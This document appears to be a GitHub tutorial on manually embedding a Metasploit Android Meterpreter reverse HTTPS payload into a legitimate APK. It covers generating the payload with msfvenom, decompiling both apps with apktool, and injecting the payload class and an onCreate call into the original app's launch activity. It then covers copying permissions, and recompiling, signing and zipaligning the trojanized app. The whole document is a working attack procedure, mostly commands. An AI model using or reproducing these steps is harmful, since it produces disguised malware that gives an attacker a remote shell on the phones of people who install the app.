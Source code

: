 # Msfvenom Payload in APK (Manual Embedding)

### 1. Generating Payload using MSFVenom

```bash
msfvenom -p android/meterpreter_reverse_https LHOST=192.168.47.5 LPORT=443 -o Payload.apk
```



### 2. Decompiling Payload.apk

```bash
apktool d -f Payload.apk
```



### 3. Decompiling Original Apk

```bash
apktool d -f Original.apk
```



### 4. Embedding Payload to Original APK

First, Copy `Payload/smali/com/metasploit/stage/Payload.smali` to `Original/smali/com/metasploit/stage/Payload.smali`

Then, open `Original/AndroidManifest.xml` and find `<action android:name="android.intent.action.MAIN"/>`. Then look at its parent `<activity>` tag and take a note at the `<activity android:name="com.a.b.c.d">`. Now, goto `smali` folder and then follow the activity name to find the `d` file i.e `smali->com->a->b->c->d`.

In the file `d`, find the line `onCreate(Landroid/os/Bundle;)V` and under that line, you will see `invoke-super {p0, p1} ...`.

You have to enter the following line underneath this line : `invoke-static {p0}, Lcom/metasploit/stage/Payload;->onCreate(Landroid/content/Context;)V` or `invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V`

Please note that the above is a single line of code. It is possible to confuse by using a different pathname than “com/Metasploit/stage/Payload” however if you do that you will have to modify all references to the path in all of the “smali” files that are contained in the “Payload” directory and change the directory name itself. This can be done manually but is prone to error.

Finally, copy the NON-DUPLICATE PERMISSIONS from `Payload/AndroidManifest.xml` and paste them to `Original/AndroidManifest.xml`.



### 5. Recompiling the Modded APK

```bash
apktool b Original.apk
```

The unsigned modified apk will be present in `Original/dist` folder.



### 6. Signing the APK

First, (ONE TIME ONLY), you have to generate a keystore using `keytool` which contains the keys. Remember the **keystore password**, **alias** and **algorithm** as they will be used in next steps

```bash
keytool -genkey -V -keystore key.keystore -alias 1llus10n -keyalg RSA -keysize 2048 -validity 1000
```

Now, you will use `jarsigner` to sign the apk

```bash
jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore key.keystore Modded.apk 1llus10n
```



### 7. Optimizing the APK (ZipAlign)

```bash
zipalign -v 4 Modded-Signed.apk Modded-Signed-Optimized.apk
```

